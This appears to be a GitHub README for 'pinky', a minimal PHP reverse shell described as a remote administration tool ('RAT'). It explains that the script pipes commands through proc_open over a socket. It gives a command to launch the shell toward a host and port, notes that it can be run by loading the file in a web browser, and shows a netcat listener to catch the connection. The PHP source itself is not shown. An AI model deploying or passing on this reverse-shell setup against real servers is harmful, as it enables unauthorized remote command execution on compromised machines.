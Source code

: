 ## pinky
### The (reverse) PHP mini RAT

A reverse shell works by the remote computer sending its shell to a specific user, rather than binding it to a port, which would be unreachable in many circumstances. This allows run commands over the remote server.

**pinky** is a minimal php implementantion of a reverse remote administration tool.

### Why?

Truth is there are a lot of implementations out there in other programming languages, but not a good one written in PHP. Most of the code makes use of the **shell_exec** function to execute commands and this is very limited. **pynky** use **proc_open** to pass  input and catch the output to send it through a socket connection.

### How to use it.

All you need is to execute the file: pynky.php using the web browser or within the CLI.

```
$ php pinky.php -a 127.0.0.1 -p 3391 -t tcp
```

**Client**

![pinky client](https://github.com/davidtavarez/pinky/blob/master/pinky_client.png?raw=true "Client")

**Server**

![pinky server](https://github.com/davidtavarez/pinky/blob/master/pinky_server.png?raw=true "Server")

**URL**

![pinky url](https://github.com/davidtavarez/pinky/blob/master/pinky_url.png?raw=true "URL")

### Using netcat (nc) ###

Also you can open the reverse shell with the **nc** command, like this.

```
$ nc -v -n -l -p 3391
```
